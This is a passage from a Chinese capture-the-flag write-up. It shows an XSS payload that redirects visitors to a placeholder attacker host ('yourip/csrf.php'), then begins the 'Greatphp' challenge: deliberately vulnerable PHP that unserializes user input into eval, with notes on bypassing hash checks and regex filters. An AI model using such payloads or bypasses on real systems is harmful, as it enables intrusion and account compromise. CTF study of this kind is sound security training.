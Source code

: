 然后提交报告,在报告内容中写

```
<script>window.location.href="https://yourip/csrf.php"</script>
```

但是没有成功,因为是在buu上做的,这道题也是0解,估计是环境出了问题,就不管了

## Greatphp

### 知识点

> 利用原生类绕过md5===
>
> 利用取反符号~取代引号绕过preg_match
>
> ?><?=绕过报错信息,执行php代码,以及<?=和<?php相等

```php
<?php
error_reporting(0);
class SYCLOVER {
    public $syc;
    public $lover;

    public function __wakeup(){
        if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
           if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
               eval($this->syc);
           } else {
               die("Try Hard !!");
           }
           
        }
    }
}

if (isset($_GET['great'])){
    unserialize($_GET['great']);
} else {
    highlight_file(__FILE__);
}

?>
```

前置知识: exception::toString

https://www.php.net/manual/zh/exception.tostring.php
